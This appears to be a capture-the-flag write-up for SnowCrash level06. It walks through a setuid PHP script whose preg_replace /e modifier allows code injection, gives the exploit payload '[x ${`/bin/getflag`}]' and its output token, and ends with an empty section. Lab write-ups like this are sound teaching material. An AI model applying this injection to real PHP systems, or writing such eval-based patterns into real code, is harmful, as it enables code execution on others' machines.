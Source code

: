 # Level 06

## Reconnaissance

In the home directory of `level06`, we find two interesting files:

- `level06`: binary owned by `flag06`
- `level06.php`: a PHP script that appears to be related

```bash
level06@SnowCrash:~$ ls -l
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

## PHP Script Analysis

Content of `level06.php`:

```php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
```

### Vulnerability

- The script reads a file passed as the first argument.
- It uses `preg_replace` with the `/e` modifier, which evaluates the matched content as PHP code.
- This allows command injection by writing `[x ${\`/bin/getflag\`}]` in the input file.
- The call to `y()` slightly transforms the code, but `${\`command\`}` remains executable and bypasses it.

## Exploitation

Create a file with malicious content:

```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' > /tmp/input
level06@SnowCrash:~$ ./level06 /tmp/input
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

The binary executes the command as `flag06`, and the flag is revealed.

## Additional Notes
